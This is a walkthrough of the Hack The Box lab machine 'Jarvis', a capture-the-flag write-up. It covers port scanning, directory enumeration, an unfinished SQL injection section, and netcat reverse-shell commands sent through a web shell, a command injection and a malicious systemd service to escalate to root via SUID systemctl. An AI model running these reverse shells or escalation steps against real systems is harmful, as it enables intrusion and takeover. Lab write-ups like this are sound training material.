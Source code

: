 Jarvis HTB walkthrough
*******************************

Nmap
#########

To start off we run a nmap scan

.. code-block:: console

	PORT      STATE SERVICE VERSION 

	22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0) 

	| ssh-hostkey:  

	|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA) 

	|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA) 

	|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519) 

	80/tcp    open  http    Apache httpd 2.4.25 ((Debian)) 

	|_http-server-header: Apache/2.4.25 (Debian) 

	| http-cookie-flags:  

	|   /:  

	|     PHPSESSID:  

	|_      httponly flag not set 

	|_http-title: Stark Hotel 

	64999/tcp open  http    Apache httpd 2.4.25 ((Debian)) 

	|_http-server-header: Apache/2.4.25 (Debian) 

	|_http-title: Site doesn't have a title (text/html). 

	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel 

We discover ports `80` and `64999` are open.

Enumerating port 80
#########################

We then enumerate port 80 by running dirbuster. This can also be done with gobuster.

.. code-block:: console

	dirb http://jarvis -w /usr/share/wordlists/dirb/common.txt
	+ http://jarvis/index.php (CODE:200|SIZE:23628)            
	 ==> DIRECTORY: http://jarvis/phpmyadmin/ 
	http://jarvis/room.php

Enumerating port 64999
#############################

When you go to `http://jarvis:64999/` it just gives you the text  

	Hey you have been banned for 90 seconds, don't be bad 

SQL Injection 
###################

When we go to room.php we can see that it specifies a number: *http://jarvis/room.php?cod=1* . When we run *http://jarvis/room.php?cod='* it does not display any hotel information.

*ADD MORE STUFF*

Inital Shell
##################

Go to this website to create the shell

.. code-block:: console

	http://supersecurehotel.htb/shell.php?cmd=nc -e /bin/bash 10.10.14.20 4444 

We then run this command to see what commands we can execute as sudo

.. code-block:: console

	sudo –l 
	(pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py 

We can see that as pepper, we can execute simpler.py as root.

To make are shell prettier we execute this command

..code-block:: console

	python -c 'import pty; pty.spawn("/bin/bash")' 

More Shell Access
+++++++++++++++++++++

We then run the following command to get more access within the shell 

..code-block:: console

	sudo -u pepper /var/www/Admin-Utilities/simpler.py -p 
	Enter an IP: $(bash) 
	pepper@jarvis:~$ nc -e /bin/bash 10.10.14.20 4443 

We then listen to the port with netcat and we should have more commands we can execute

..code-block:: console

	Nc –lvnp 4443 

PE
##################

We then moved Linenum.sh onto machine and found the SSUID 


.. code-block:: console

	./LinEnum.sh -t 
	/bin/fusermount 
	/bin/mount 
	/bin/ping 
	/bin/systemctl 
	/bin/umount 
	/bin/su 
	/usr/bin/newgrp 
	/usr/bin/passwd 
	/usr/bin/gpasswd 
	/usr/bin/chsh 
	/usr/bin/sudo 
	/usr/bin/chfn 
	/usr/lib/eject/dmcrypt-get-device 
	/usr/lib/openssh/ssh-keysign 
	/usr/lib/dbus-1.0/dbus-daemon-launch-helper 

Exploit SUID
+++++++++++++++++
	 
We see that systemctl is SUID exploitable. So we then go to `/tmp` and create the exploit.
 
.. code-block:: console

	cd /tmp 
	cp mynameis.service /home/pepper 
	vi mynameis.service 
	[Service] Type=notify ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.20 4441' KillMode=process Restart=on-failure RestartSec=42s [Install] WantedBy=multi-user.target 

We  transffered it to jarvis and get root 

.. code-block:: console

	/bin/systemctl link /home/pepper/mynameis.service 
	/bin/systemctl enable –now mynameis.service; /bin/systemctl start mynameis.service 
	Nc –lvnp 4441 # attacker machine 

There we can see root.txt which is *d41d8cd98f00b204e9800998ecf84271*  

